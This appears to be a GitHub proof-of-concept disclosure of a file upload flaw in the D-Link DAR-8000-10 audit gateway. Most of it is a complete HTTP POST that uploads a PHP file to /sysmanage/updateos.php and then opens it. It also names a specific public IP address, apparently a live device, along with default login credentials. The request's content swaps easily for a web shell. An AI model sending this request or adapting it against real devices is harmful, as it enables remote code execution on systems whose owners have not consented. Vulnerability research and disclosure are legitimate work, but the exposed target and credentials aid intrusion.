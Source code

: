 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=405fd5b19bc87f221050608ff53b6fb9
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/dd44ef4c-f4ed-40f2-8af6-3cee38efcb6a">

https://59.60.19.174:8443/home/1.php 

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/532db13e-c9f3-41f1-ad45-d48f25c797af">


